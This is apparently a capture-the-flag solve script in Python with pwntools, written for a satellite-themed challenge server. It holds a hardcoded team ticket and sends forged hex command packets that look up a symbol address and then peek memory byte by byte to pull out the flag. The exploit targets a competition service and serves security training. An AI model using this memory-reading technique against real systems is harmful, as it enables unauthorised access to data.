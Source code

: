 solve
```python
from pwn import *
import binascii

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x) 
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)


def send_lookup_symbol(p, t):
    #00000000  18 88 c0 00  00 41 09 8a  4b 69 74 54  6f 00 00 00     
    #00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00                     #00000040  00 00 00 00  00 00 00 00

    ls = ('1888c0000041098a4b6974546f000000'
          '00000000000000000000000000000000'
          '0000000000000000')

    t.send(binascii.unhexlify(ls))
    ru(b'Addr = ')
    addr = p.recvline().strip()
    print('address is %s'%(int(addr, 16)))
    return int(addr, 16)
    
def peek_flag_data(p, t, addr, offset):
    #00000000  18 88 c0 00  00 49 02 a2  08 01 00 00  91 6a 40 f4
    #00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00 
    #00000050

    ls = ('1888c000004902a208010000%s'
          '000000000000000000000000000000')
    ls = ls%binascii.hexlify(p32(addr+offset))
    t.send(binascii.unhexlify(ls))
    print(ru(b'Data = 0x'))
    return p.recvline().strip().decode('utf-8')
    

context.log_level = 'debug' 


p=connect('bytes.satellitesabove.me', 5042)
ru("please:")
sl('ticket{india82753golf:GFzaYxtqzMC-gJV_dBlgUTN5aEr_aY6YraaO07_IYQW8DLJYbOyAzJfgqpocbXCoSw}')
ru("tcp:")
ip_port=ru("\n")
ip=ip_port.split(':')[0]
port=int(ip_port.split(':')[1])
print("%s : %s" % (ip, port))
ru("OPERATIONAL")
rem = remote(ip, port)

addr = send_lookup_symbol(p, rem)

flag = ''
for i in range(0xc8):
    flag += peek_flag_data(p, rem, addr+(0x18c80-0x6200)+12, i)

print(flag)
print(binascii.unhexlify(flag))
```